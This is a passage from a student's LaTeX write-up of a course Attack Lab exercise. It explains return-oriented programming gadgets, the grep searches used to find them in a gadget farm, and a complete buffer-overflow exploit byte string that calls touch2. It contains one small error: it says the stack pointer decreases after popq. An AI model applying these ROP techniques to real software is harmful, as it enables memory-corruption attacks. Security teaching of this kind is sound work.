\subsection{Gadget farms}

\subsubsection{What is a gadget farm?}

``Gadgets'' are something used in return-oriented programming to execute code that already exists in a program rather than injecting new code.

An assembly program is represented by bytes. The CPU cannot tell the difference between a byte that was meant to be an instruction and a byte that was meant to be data. For example, the following is the object dump of my \code{getbuf} function from Attack Lab:

\begin{minted}{text}
000000000040267e <getbuf>:
  40267e:       f3 0f 1e fa             endbr64
  402682:       48 83 ec 28             sub    $0x28,%rsp
  402686:       48 89 e7                mov    %rsp,%rdi
  402689:       e8 b5 02 00 00          callq  402943 <Gets>
  40268e:       b8 01 00 00 00          mov    $0x1,%eax
  402693:       48 83 c4 28             add    $0x28,%rsp
  402697:       c3                      retq
\end{minted}

The intended instructions are listed line by line. However, if we have control over where the program will jump (for example by overwriting the base pointer), we can tell the CPU to execute instructions that were not ``intended'' to be there. For example, we can make the CPU execute the \code{ec} byte from the above assembly as an instruction by jumping to the address \code{0x402684}.

\begin{minted}{text}
  402682:       48 83 ec 28             sub    $0x28,%rsp
                      ^^
                     here
\end{minted}

In this case, it's just a useless instruction that ``inputs a byte from the I/O port in DX into AL''~\cite{x86-cli-ins}. With return-oriented programming, you attempt to find sequences of bytes in the assembly that execute instructions to your liking, which are then shortly followed by a \code{c3} byte. The \code{c3} byte, as described earlier, encodes the \code{ret} instruction. 

Recall that \code{ret} jumps to the address currently on top of the stack.
Therefore, if you have control of the stack, you can write addresses of multiple gadgets onto the stack that are then executed sequentially. When each gadget finishes, it \texttt{ret}s to the next address on the stack.

The gadget farm, in short, is a collection of all the gadgets we can find in the existing program code: addresses of groups of small, executable byte sequences that we can compose into larger and more useful gadgets.

\subsubsection{How I use gadget farms}

To search through the gadget farm, I wrote the part of the \texttt{rtarget} object dump that contained the gadget farm to a file named \code{farm.objdump}. I then tried different exploit ideas and searched the object dump for exploitable byte sequences. Ultimately, I ended up with the following set of gadgets:

\begin{enumerate}
  \item Pop the top of the stack into the \texttt{\%rax} register. This instruction is encoded as \code{58}~\cite[p. 10]{attacklab-pdf}, and I found two viable gadgets as follows:
    \begin{minted}[linenos, autogobble]{text}
      $ grep '58' farm.objdump
        4028cf:       c7 07 a1 58 c3 0a       movl   $0xac358a1,(%rdi)
        4028ef:       b8 58 90 90 c3          mov    $0xc3909058,%eax
      0000000000402913 <addval_358>:
        402958:       c7 07 81 c1 08 c0       movl   $0xc008c181,(%rdi)
        4029ce:       b8 58 89 e0 90          mov    $0x90e08958,%eax
    \end{minted}
    Line 2 shows the sequence \code{58 c3}, which encodes \texttt{popq \%rax} followed by \code{ret}. There is another gadget on line 3 with the sequence \code{58 90 90 c3}, which is \texttt{popq \%rax}, \code{nop}, \code{nop}, and then \code{ret}. Both are equally viable, but I used the first one.

    The \code{58 c3} sequence starts at the 4th byte after \code{0x4028cf} --- thus the gadget address becomes \code{4028cf + 3 = 4028d2}.

  \item Copy the contents of register \texttt{\%rax} into register \texttt{\%rdi} (because \texttt{\%rdi} holds the first argument to a function). This instruction is encoded as the multibyte sequence \code{48 89 c7}~\cite[p. 10]{attacklab-pdf}. A usable gadget can be found as follows:

    \begin{minted}[linenos, autogobble]{text}
      $ grep '48 89 c7' -A 1 farm.objdump
        4028a4:       8d 87 4c 48 89 c7       lea    -0x3876b7b4(%rdi),%eax
        4028aa:       c3                      retq
      --
        4028da:       c7 07 48 89 c7 91       movl   $0x91c78948,(%rdi)
        4028e0:       c3                      retq
      --
        4028e5:       b8 75 48 89 c7          mov    $0xc7894875,%eax
        4028ea:       c3                      retq
    \end{minted}

    Across lines 8 and 9, the byte sequence \code{48 89 c7 c3} appears, which encodes \texttt{movq \%rax,\%rdi} and then \code{ret}. I used this gadget, but it also appears on lines 2-3. The address of the gadget becomes \code{4028e5 + 2 = 4028e7}.
\end{enumerate}

I then crafted an exploit string with the following bytes:

\begin{minted}[linenos]{c}
/* Padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

d2 28 40 00 00 00 00 00 /* Address of our `popq %rax` gadget */
0e 66 21 5d 00 00 00 00 /* Our cookie */
e7 28 40 00 00 00 00 00 /* Address of our `movq %rax,%rdi` gadget */
cc 26 40 00 00 00 00 00 /* Address of touch2 */
\end{minted}

The steps of the exploit are as follows:

\begin{enumerate}
  \item \code{Gets} reads our input and overflows the buffer.
  \item We overwrite the location on the stack that held the return address with \texttt{0x4028d2}, the address of our first gadget.
  \item Below our gadget address on the stack, we write the value of our cookie. After \code{ret} is executed in \code{getbuf}, the gadget address is popped off the stack. Therefore, the cookie will be on the top of the stack.
  \item The CPU return-jumps to our first gadget, which pops a value off the stack and into \texttt{\%rax} (\texttt{popq \%rax}). Our cookie is currently the top of the stack, so \texttt{\%rax} now contains our cookie.
  \item When \code{popq} is executed, the stack pointer is decreased, so it now points to the third line of our exploit: the address of our second gadget.
  \item When the \code{ret} instruction in our first gadget is executed, it pops the stack and jumps to our second gadget. The gadget copies the cookie from \texttt{\%rax} to \texttt{\%rdi}. Recall that \texttt{\%rdi} holds the first argument to \texttt{touch2}, so we have now "passed" the argument.
  \item The second gadget return-jumps to the address on top of the stack, which is \texttt{touch2}. We are now done.
\end{enumerate}

\autoref{fig:gadget-stack-memory} illustrates how the stack and memory looks for my specific attack, and how ``hidden'' instructions are abused.

\begin{figure}[H]
  \centering
  \hbox{\makebox[\textwidth][c]{
    
\includegraphics[scale=0.95]{figures/gadget-example.pdf}
  }}
  \caption{Illustration of my own gadget farm attack in Attack Lab (phase 4). On the left, you can see the stack after the buffer overflow. In the middle you can see the memory addresses, bytes, and instructions I am using as gadgets. On the far right, you can see the ``original'' instructions that I have abused.}
  \label{fig:gadget-stack-memory}
\end{figure}
